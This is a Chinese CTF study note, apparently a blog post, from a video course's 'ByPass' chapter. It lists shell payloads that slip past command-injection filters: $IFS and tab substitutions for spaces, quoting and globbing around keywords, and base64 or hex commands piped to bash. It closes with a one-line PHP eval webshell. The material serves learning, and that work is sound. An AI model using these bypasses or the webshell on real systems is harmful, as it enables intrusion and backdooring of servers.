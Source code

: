 ```yaml
---
title: 20241209CTF学习笔记7
date: 2024-12-09
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true












---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始视频学习的第6天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第6章：ByPass

### 过滤空格

如果空格被禁止了，那就需要用一些其他的方法

```shell
# 这种情况展示不了flag，只会报找不到cat.php的文件
cat$IFSflag.php
# 使用以下方式可以不用空格
cat${IFS}flag.php
# <这个意思是导入
cat<flag.php
# 用逗号实现了空格的功能，需要用{}括起来
{cat,flag.php}
# 需要看编码支不支持
cat%20flag.php
# %09代表tab键
cat%09flag.php
```

### 过滤某些关键字

比如cat、flag等

```shell
# 用反斜线转义，对字母本身做转义还等于本身
cat fla\g.php

# 可以用两个单引号隔开
cat fla''g.php

# base64编码绕过 需要将cat flag.php或者flag.txt进行base64加密，
echo "Y2F0IGZsYWcudHh0" | base64 -d | bash

# hex编码绕过 
# 对于给定的十六进制字符串 "63617420666c61672e747874"，经过 xxd -r -p 解码后得到的文本内容是 "cat flag.txt"，然后通过管道传递给 bash 去执行，查看flag.txt文件
echo  echo "63617420666c61672e747874" | xxd -r -p | bash

# 用[]去匹配
cat fl[a]g.txt

# 用[]匹配时，如果有两个字母，表示不包含两边
cat fla[f-h].txt

# 用*来匹配，代表任意长度字符
cat fla*

# 用问号匹配 正常ctf环境直接cat flag即可，将g替换为问号，问号是单个长度的任意
cat flag.tx?

# 从a—z逐行执行
cat fl{a..z}g

# 内联执行 第一行是找到flag.txt的文件 第二号反引号先执行里边的命令 然后把里边命令的结果给cat
ls | grep fla
cat `ls | grep fla`
# 或者有其他的内联执行
cat $(ls |grep fla)

# 用变量
a=fl;b=ag;cat $a$b.txt
```

> 在Python中，如果过滤了加号，不让使用加号时，我们可以使用如下特性绕过
>
> ```
> 'a'+'b'会输出ab
> 'a''b'也会输出ab
> ```

### 附加题目：

GXYCTF2019 Ping Ping Ping

### 代码执行漏洞

##### 题目练习

eval()函数，以下是一个一句话木马，0就是webshell的密码，蚁剑帮我们执行了很多命令，用eval去执行

```php
<?php eval($_POST[0]);?>
```

